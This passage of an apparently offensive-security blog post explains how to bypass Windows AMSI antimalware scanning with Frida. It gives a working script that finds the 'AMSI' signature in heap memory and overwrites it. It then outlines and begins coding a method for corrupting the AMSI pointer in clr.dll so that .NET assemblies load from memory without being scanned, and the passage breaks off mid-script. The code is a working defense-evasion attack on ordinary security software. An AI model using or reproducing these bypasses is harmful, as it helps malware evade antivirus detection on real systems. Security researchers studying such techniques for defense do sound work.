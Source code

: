 ```javascript
var heap = Process.enumerateMallocRanges();

for (var range of heap) {
	Memory.scan(range.base, range.size, "41 4D 53 49", {
		onMatch(address, size) {
			console.log("Found 'AMSI' @ " + address.toString());
			address.writeByteArray([0x31, 0x33, 0x33, 0x37]);
			console.log("Replaced with '1337'.")
		}
	});
}
```

The bottom line here is that, with access to the process and control over its virtual address space, there is no end to the different ways we can find and corrupt the structures that AMSI requires to work properly.

## Patching AMSI in the CLR

We've demonstrated pretty thoroughly by now that AMSI doesn't stand a chance against an attacker that has control over the process they're trying to bypass it in, but so far all of our examples have exclusively targeted the way Powershell commands or script blocks are submitted to AMSI. But are there other commonly used programs or features that subscribe to AMSI?

The anwer is yes, there are! In fact, [this helpful blog](https://redcanary.com/blog/amsi/) documents quite a few Microsoft utilities that instrument AMSI by default. Powershell instruments AMSI from *System.Management.Automation.dll*, for example - which makes sense, because the *amsiInitFailed* field is part of "System.Management.Automation.AmsiUtils". Let's pick out another example from that list:

> .NET in-memory assembly loads: instrumented in .NET 4.8+ in clr.dll and coreclr.dll

That one seems interesting. Being able to use reflection to load a .NET assembly into Powershell is pretty useful from an offensive perspective. And sure enough, even if we use one of our AMSI bypasses from earlier, we'll find that trying to load an assembly from memory gives us an error:

![a screenshot of an AMSI error even after bypassing AMSI](/img/amsipatch_reflection.png)

We're not sure exactly where *clr.dll* (which is the Common Language Runtime that manages the .NET runtime environment) invokes and uses AMSI functionality, but it's a pretty good bet that there's a global variable somewhere that contains an *AmsiContext* object. If that is indeed the case, there will be a pointer to it somewhere in the memory ranges allocated to *clr.dll*.

A bruteforce approach to this problem begins to emerge:

1. Enumerate all of the readable and writable memory ranges allocated for *clr.dll*.
2. Scan each of those memory ranges for valid pointers to the heap.
3. Read 4 bytes from each pointer and check for the value "AMSI".
4. If you get a hit, corrupt the pointer with a different value.

And here it is, implemented in Frida:

```javascript
function addressIsPtr(ptr) {
	var range = Process.findRangeByAddress(ptr);
	if (range != null && range.protection.includes("r")) {
		return true;
	}
	return false;
}

function scanForPointers(ptr, size) {
	var output = []
	for (var i = 0; i < size; i += Process.pointerSize) {
		var currentPos = ptr.add(i);
		var currentPtr = currentPos.readPointer();
		if (addressIsPtr(currentPtr)) {
```